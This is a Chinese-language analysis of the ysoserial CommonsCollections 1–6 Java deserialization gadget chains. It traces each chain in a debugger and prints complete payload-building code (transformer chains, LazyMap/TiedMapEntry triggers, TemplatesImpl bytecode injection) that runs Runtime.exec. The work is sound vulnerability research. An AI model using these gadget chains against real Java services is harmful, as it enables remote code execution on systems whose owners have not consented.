# CommonsCollections系列gadgets分析

## 基础知识

看之前需要先了解java的反射机制,动态代理，getClass, getMethod, invoke，Proxy等等方法的使用。

CommonsCollections的每一个漏洞可以拆成两部分来分析，一部分是怎么构造一个ChainedTransformer或者是其他Transformer，用来执行恶意代码，另外一部分就是如何利用一个类的readObject方法在进行一系列操作之后，可以执行对应Transformer的transform函数。

在分析漏洞的时候先把断点打到exec上，看下整体的调用过程，然后关注被反序列化类的readObject方法就可以了。

debug payload的过程，payload代码如果没有像ysoserial的代码一样，先构造大框然后再利用反射的方法加入恶意代码，可能导致还没有readObject时，就已经开始了命令执行，触发到了exec的断点，调试的时候看下是不是在readObject时候触发的。

在分析ysoserial的几个payload过程中，为了方便把部分payload拆了出来，还有一些类的使用写了些测试代码。

代码： https://github.com/SPuerBRead/ddup/CommonsCollections/code

## 漏洞分析

### CommonsCollections1

将断点打在java.lang.RunTime.exec函数上，可以看到整个漏洞的调用链如下



先重点关注这三个部分


首先看poc中的这部分代码
```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),

        new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime", new Class[0]}),

        new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[0]}),

        new InvokerTransformer("exec",
                new Class[]{String.class},
                new Object[]{"open /Applications/Calculator.app"}),
};
Transformer transformerChain = new ChainedTransformer(transformers);
```

漏洞涉及到的三个方法

org.apache.commons.collections.functors.InvokerTransformer
```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```
org.apache.commons.collections.functors.ChainedTransformer
```java
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers;
}
```
org.apache.commons.collections.functors.ChainedTransformer
```java
public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
    }

    return object;
}
```

把断点打到InvokerTransformer类的transform函数



程序会进入到`org.apache.commons.collections.functors.ChainedTransformer`的循环中，看下`Transformer[]`中的内容每次执行的结果

第一次循环

```java
new InvokerTransformer("getMethod",
    new Class[] { String.class, Class[].class },
    new Object[] { "getRuntime", new Class[0] }),
```


| 变量 | 值 |
| :-- | :-- |
| input | class java.lang.Runtime |
| cls | class java.lang.Class |
| method | public java.lang.reflect.Method java.lang.Class.getMethod(java.lang.String,java.lang.Class[]) |
| return | java.lang.Runtime.getRuntime() **getRuntime方法的Method对象** |

首先getClass方法获取到了class java.lang.Class，接下来执行getMethod方法，参数值this.iMethodName, this.iParamTypes分别是传入的`getMethod`和`new Class[] { String.class, Class[].class }`，返回结果是getMethod的Method对象，执行第三步的method.invoke函数，参数input和this.iArgs分别是`class java.lang.Runtime`和`new Object[] { "getRuntime", new Class[0] }`
invoke方法就相当于执行了getMethod方法获取了getRuntime方法的Method对象

第二次循环

```java
new InvokerTransformer("invoke",
    new Class[] { Object.class, Object[].class },
    new Object[] { null, new Object[0] }),
```


| 变量 | 值 |
| --- | :-- |
| input | public static java.lang.Runtime java.lang.Runtime.getRuntime() **java.lang.Runtime.getRuntime()方法的Method对象** |
| cls | class java.lang.reflect.Method |
| method | public java.lang.Object java.lang.reflect.Method.invoke(java.lang.Object,java.lang.Object[]) |
| return | 相当于执行了java.lang.Runtime.getRuntime() **拿到了Runtime对象** |

首先拿到了class java.lang.reflect.Method然后利用getMethod拿到了`java.lang.reflect.Method.invoke(java.lang.Object,java.lang.Object[])`方法，然后对该方法执行invoke获取到了Runtime对象

第三次循环

```java
new InvokerTransformer("exec",
    new Class[] { String.class },
    new Object[] { "open /Applications/Calculator.app" }),
```

| 变量 | 值 |
| :-- | :-- |
| input | class java.lang.Runtime |
| cls | Runtime的Class |
| method | public java.lang.Process java.lang.Runtime.exec(java.lang.String) |
|  | invoke调用了exec方法，造成命令执行 |

通过cls和getMethod拿到了exec方法的Method对象，然后利用invoke进行命令执行

也就是说，现在只要在反序列化过程中能够触发到`org.apache.commons.collections.functors.ChainedTransformer`的transform函数即可触发漏洞，造成命令执行了。

接下里就来寻找使用什么来触发transform函数

#### TransformedMap

通过TransformedMap和AnnotationInvocationHandler来触发transform函数

对map执行过TransformedMap.decorate之后，当map有put、putAll、setValue等操作时就会触发对应的transform函数。
对map使用setValue，首先进入了checkSetValue

然后checkSetValue方法执行了对应的transform函数


put和putAll方法最终也会调用`valueTransformer.transform(object)`




可以通过代码中的TransformedMapUseTest类进行调试，TransformedMapUseTest类使用的TransformedMap只包含一个简单的InvokerTransformer。

现在相当于只要找到一个类在反序列化过程中可以对map进行setValue、put或者putAll操作就可以实现命令执行。

`sun.reflect.annotation.AnnotationInvocationHandler`的构造函数接收map参数并且readObject函数中对map做了setValue操作


接下来就是构造一个AnnotationInvocationHandler对象使其反序列化的过程中对transformMap进行setValue操作。

因为`sun.reflect.annotation.AnnotationInvocationHandler`类的构造方法是friendly的，所以需要用反射的方式来构造AnnotationInvocationHandler对象,AnnotationInvocationHandler的readObject中也需要一些条件才能触发setValue方法。

接下来看一下能够执行setValue函数的前提
首先`var2 = AnnotationType.getInstance(this.type);`


从`var1.isAnnotation()`可以看到AnnotationInvocationHandler构造函数的第一个参数必须是一个元注解类型,可以选择以下四种
```java
@Target
@Retention
@Documented
@Inherited
```
```java
Entry var5 = (Entry)var4.next();
String var6 = (String)var5.getKey();
Class var7 = (Class)var3.get(var6);
if (var7 != null) {
    setValue(xxxxx)
}
```
接下来,`var4.next()`拿到了我们outMap中的的value->value,对应上边的代码可以看出必须要从var3中可以拿到值才能使var7不为空进入setValue部分。
程序获取var3的代码为`Map var3 = var2.memberTypes();`,跟进memberTypes()

这里就需要var2的长度至少为1才能进入循环为memberTypes进行put操作，var1从以下方法中获得`var1.getDeclaredMethods();`，即第一个参数至少要有一个方法，而@Documented和@Inherited中没有方法，所以AnnotationInvocationHandler构造函数的第一个参数只能选择Target.class或者Retention.class,Target.class和Retention.class包含的函数名均为value,所以需要var6的值必须为`value`，也就是构造的TransformedMap中的key需要是`value`,不能是其他，然后AnnotationInvocationHandler构造函数第二个参数放入构造好的TransformedMap即outMap。

构造AnnotationInvocationHandler的代码如下：
```java
Map innerMap = new HashMap();
innerMap.put("value", "a");
Map outMap = TransformedMap.decorate(innerMap, null, transformerChain);
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
Object instance = constructor.newInstance(Target.class, outMap);
```

生成payload的完整代码如下
```java
private static Object createPayload() throws Exception {
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),

            new InvokerTransformer("getMethod",
                    new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),

            new InvokerTransformer("invoke",
                    new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),

            new InvokerTransformer("exec",
                    new Class[]{String.class},
                    new Object[]{"open /Applications/Calculator.app"}),
    };

    Transformer transformerChain = new ChainedTransformer(transformers);
    Map innerMap = new HashMap();
    innerMap.put("value", "a");
    Map outMap = TransformedMap.decorate(innerMap, null, transformerChain);
    Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    Object instance = constructor.newInstance(Target.class, outMap);
    return instance;
}
```


#### LazyMap

通过LazyMap和AnnotationInvocationHandler来触发transform函数

LazyMap的触发方式用到了java动态代理方面的知识

大概意思就是当代理对象的方法被调用的时候，就会执行对应InvocationHandler的invoke方法

当使用LazyMap的get方法获取键值时，如果没有获取到对应的值，就会调用LazyMap的transform方法，接下来就需要找到一个调用方法的地方

AnnotationInvocationHandler中的invoke方法刚好调用了输入参数的get方法，所以只要调用了AnnotationInvocationHandler的invoke方法并且var4符合一定条件即可出发漏洞。



并且AnnotationInvocationHandler的readObject方法调用了memberValues的entrySet()函数，如果此时的memberValue是一个代理对象那么就可以控制程序进入invoke函数触发漏洞



接下来结合漏洞poc分析下漏洞触发的流程

```java
Map innerMap = new HashMap();
Map lazyMap = org.apache.commons.collections.map.LazyMap.decorate(innerMap, transformerChain);
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructors()[0];
constructor.setAccessible(true);
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
Map map = (Map) Proxy.newProxyInstance(lazyMap.getClass().getClassLoader(),lazyMap.getClass().getInterfaces(),invocationHandler);
Object instance = constructor.newInstance(Override.class, map);
```
instance对象在被反序列化的过程中对map执行了`entrySet`，由于这里的map是代理对象，所以会调用`Proxy.newProxyInstance`第三个参数传入对象invocationHandler的invoke方法，而此时invocationHandler对象是由lazyMap包装后的`AnnotationInvocationHandler`对象，也就是调用了这个对象的invoke方法，这个对象的memberValue就是lazyMap，invoke方法开始对lazyMap进行处理，此时的var4刚好else的条件中（具体invoke方法的method参数可以用代码中的ProxyTest类测试一下），于是执行对lazyMap对象进行了get操作导致了命令执行

触发transform方法的方式不止这两种有很多，后边会遇到，利用各种类去执行到transform方法。


### CommonsCollections5

CommonsCollections5和CommonsCollections1大部分相同，只是换用新的类(BadAttributeValueExpException)触发ChainedTransformer的transform方法

ysoserial中CommonsCollections5的利用条件是This only works in JDK 8u76 and WITHOUT a security manager，8u76版本之后BadAttributeValueExpException类加入了自己的readObject，漏洞的触发点也是存在于readObject函数中



在反序列化的过程取到初始化对象后进行判断如果不为`null`，不是`String`类型，并且安全管理器是null的情况下就会对对象进行toString操作,那么找到一个类的toString方法会调用valobj的get方法，那么valobj为LazyMap时就会触发transform函数导致命令执行。

TiedMapEntry类的toSting方法在调用getValue方法时会对输入进来的map进行get操作,这里hashCode函数也是调用了getValue发法，如果能有一个类会在反序列化中调用hashCode函数那么也是会触发命令执行的



漏洞利用的poc就很清晰了,仍然是用transformerChain构造一个LazyMap,然后利用LazyMap构造一个TiedMapEntry，随便指定一个map中不存在的key就可以了，然后利用TiedMapEntry构造BadAttributeValueExpException

完整poc如下：
```java
Map innerMap = new HashMap();
Map lazyMap = org.apache.commons.collections.map.LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "b");
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valField = val.getClass().getDeclaredField("val");
valField.setAccessible(true);
valField.set(val, entry);
```

触发过程就是`BadAttributeValueExpException`在反序列化过程调用`TiedMapEntry`的`toString`方法，`TiedMapEntry`对`LazyMap`进行了get操作，执行了`transfrom`方法，剩下的与上边相同，就触发了命令执行

### CommonsCollections2

CommonsCollections2主要利用了TemplatesImpl、InvokerTransformer、TransformingComparator、PriorityQueue

同样先把断点打到exec方法上，通过yso的payload可以看到被序列化类是PriorityQueue，所以从PriorityQueue的readObject方法开始跟，简单说PriorityQueue是一个优先级队列，可以根据构造对象时提供的Comparator对元素进行排序。



跟进`heapify`方法，在siftDownUsingComparator方法中对comparator调用了compare方法，comparator就是在生成PriorityQueue对象时设置的比较器，在poc中使用TransformingComparator作为队列的比较器



看下TransformingComparator中compare方法的实现方式，调用了transformer中的transform方法，调用transform方法是不是很熟悉。


可能会想到那这里直接塞一个CommonsCollections1中的ChainedTransformer然后触发transform方法不是就可以了，是可以的，生成payload的方法如下

```java
private static Object createPayloadByOldfunc() throws Exception {
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
    
            new InvokerTransformer("getMethod",
                    new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
    
            new InvokerTransformer("invoke",
                    new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
    
            new InvokerTransformer("exec",
                    new Class[]{String.class},
                    new Object[]{"open /Applications/Calculator.app"}),
    };
    
    Transformer transformer = new ChainedTransformer(new Transformer[]{});
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(transformer));
    queue.add(1);
    queue.add(1);
    Field tField = transformer.getClass().getDeclaredField("iTransformers");
    tField.setAccessible(true);
    tField.set(transformer,transformers);
    return queue;
}
```

回到yso的payload上来，TransformingComparator的参数并不是ChainedTransformer而是直接使用的InvokerTransformer，这里调用了InvokerTransformer的transform方法，参数obj1就是我们存储在队列中的内容Templateslmpl对象，和CommonsCollections1中的分析一样，iMethodName在payload中通过反射的方法设置成了newTransformer，通过`method.invoke(xxx)`执行了TemplatesImpl的newTransformer方法。

进入TemplatesImpl类，newTransformer执行了getTransletInstance方法，在该方法中通过`AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();`对类进行了实例化，那看一下_class中包含哪些内容


利用loader.defineClass(_bytecodes[i])，将payload中设置好的_bytecodes字段还原为类，在接下来的判断中，如果该类的父类是ABSTRACT_TRANSLET也就是AbstractTranslet类，那么就将_transletIndex设置为对应的序号，getTransletInstance中也用通过_transletIndex找到需要的类并对其进行实例化的，类变量中包含这样一句代码`private int _transletIndex = -1;`，所以必须要满足if条件才能让_transletIndex有正确的位置，所以_bytecodes构建的类的父类必须是AbstractTranslet



通过这一系列操作，刚好可以通过`AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();`完成payload中构造好的类的实例化（也就是存储在_bytecodes中的类的实例化）

接下里看yso是如何构造这个类的，在这之前需要了解下javassist的相关使用，如何使用javassist构建一个类


在createTemplatesImpl方法中，首先创建了一个TemplatesImpl对象，然后向path中加入了StubTransletPayload，AbstractTranslet这两个class，学习过javassist之后应该了解到通过pool.get()方法拿到了StubTransletPayload类，然后开始修改,通过`clazz.makeClassInitializer().insertAfter(cmd);`将payload以静态代码块的方式插入到StubTransletPayload类中，然后设置类名，然后通过setSuperclass将AbstractTranslet类设置为StubTransletPayload的父类，其实在StubTransletPayload的代码中已经是将AbstractTranslet设置为父类了，后边会对这块操作详细解释，然后设置TemplatesImpl的_bytecodes为刚生成的类，设置TemplatesImpl的_name字段，这里的_name是必须要设置的，因为在TemplatesImpl的getTransletInstance方法中首先就进行了的判断如果_name为null，会直接返回不会继续执行。

总结来说，_class中的类有这几个特点，父类是AbstractTranslet，攻击代码写入到了静态代码块中,这样在类的newInstance过程中就直接执行了静态代码块中的代码，导致了命令执行

java中类实例化过程会首先执行静态代码块，然后执行构造代码块，然后默认执行类的无参构造方法，所以把恶意代码插入到无参构造函数中也是可以的，如下

```java
String string = "java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");";
CtConstructor ctConstructor = new CtConstructor(new CtClass[] {}, clazz);
ctConstructor.setBody(string);
clazz.addConstructor(ctConstructor);
```

#### 一些小问题

1. yso向_bytecodes插入恶意代码的时候，不仅插入了classBytes，而且一起插入了`ClassFiles.classAsBytes(Foo.class)`在实际测试中，不包含`ClassFiles.classAsBytes(Foo.class)`这里Foo是一个空类，一样也是可以触发漏洞的，可以debug一下跟下漏洞执行过程就是newTransform那里
2. yso在结尾时设置了_tfactory字段`Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());`实际测试中发现不设置这个字段也是没有影响的
3. StubTransletPayload类，其实StubTransletPayload只需要表面继承自AbstractTranslet类即可，不添加两个transform方法，也不实现Serializable接口，同样也是可以触发漏洞的，可以通过javassist直接创建类，然后设置父类，加入恶意代码的方式完成

    可以对生成class精简一下
    
    ```java
    private static Object CreateTemplate() throws IllegalAccessException, InstantiationException, NotFoundException, CannotCompileException, IOException, NoSuchFieldException {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass clazz = classPool.makeClass(String.valueOf(System.nanoTime()));
        String string = "java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");";
        clazz.makeClassInitializer().insertAfter(string);
    
        CtClass superC = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superC);
        final byte[] classBytes = clazz.toBytecode();
        Field bcField = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bcField.setAccessible(true);
        bcField.set(templates, new byte[][] {classBytes});
        Field nameField = TemplatesImpl.class.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "aaaa");
        clazz.writeFile();
        return templates;
   }
    ```

    yso生成的class如下,对应的payload有3,154 字节
    

    ```java
    //
    // Source code recreated from a .class file by IntelliJ IDEA
    // (powered by Fernflower decompiler)
    //
    
    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
    import java.io.Serializable;
    
    public class 20566442311196 extends AbstractTranslet implements Serializable {
        private static final long serialVersionUID = -5971610431559700674L;
    
        public _0566442311196/* $FF was: 20566442311196*/() {
        }
    
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
        }
    
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
        }
    
        static {
            Object var1 = null;
            Runtime.getRuntime().exec("open /Applications/Calculator.app");
        }
    }
    ```
    
    
    修改后生成的class如下，对应的payload有1,446 字节，如果将恶意代码插入到无参构造函数中只有1,356 字节会比静态代码块要小一些
    
    
    ```java
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

    public class 20977646936963 extends AbstractTranslet {
        static {
            Object var1 = null;
            Runtime.getRuntime().exec("open /Applications/Calculator.app");
        }
    
        public _0977646936963/* $FF was: 20977646936963*/() {
        }
    }
    ```
  
  
### CommonsCollections3

在知道CommonsCollections1和CommonsCollections2之后，CommonsCollections3就很简单了触发transform的方法仍然是使用AnnotationInvocationHandler+LazyMap，TemplatesImpl存储要执行的命令，但是transformerChain和之前不同


使用InstantiateTransformer的transform方法触发命令执行




非常熟悉的newInstance，这里的input是传入ConstantTransformer的TrAXFilter.class，通过
```java
Constructor con = ((Class) input).getConstructor(iParamTypes);
return con.newInstance(iArgs);
```
创建了TrAXFilter对象，看下TrAXFilter的构造函数



构造函数中调用了TemplatesImpl对象newTransformer方法，然后的步骤就和CommonsCollections2的步骤相同了,实例化_bytecodes中类的过程命令执行

newTransformer -> getTransletInstance(defineTransletClasses) -> _bytecodes newInstance


### CommonsCollections4

CommonsCollections4和CommonsCollections3大体上都是一样的，只是将AnnotationInvocationHandler+LazyMap的触发方式换成了CommonsCollections2中的PriorityQueue，具体看CommonsCollections3和CommonsCollections2的分析就可以了


### CommonsCollections6

CommonsCollections6仍然是利用老的ChainedTransformer，使用TiedMapEntry+LazyMap的方法触发transform方法，之前是利用TiedMapEntry的toString方法，这次使用的事hashCode方法进行触发

HashSet的readObject方法中会对map进行put操作，这个map可以是LinkedHashMap或者HashMap,HashMap的put方法会对每一个node的key进行hash操作，调用key的hashCode方法，在CommonsCollections5中提到TiedMapEntry在调用了hashCode方法会对输入进来的map进行get操作，然后结合LazyMap触发命令执行。

CommonsCollections6的payload就是创建一个HashSet利用反射的方法将HashSet对象的map属性设置为一个HashMap对象，然后将HashMap中一个node的key设置成TiedMapEntry，在HashMap对key进行hash的过程，执行TiedMapEntry.hashCode,导致对LazyMap进行了get操作，触发了命令执行


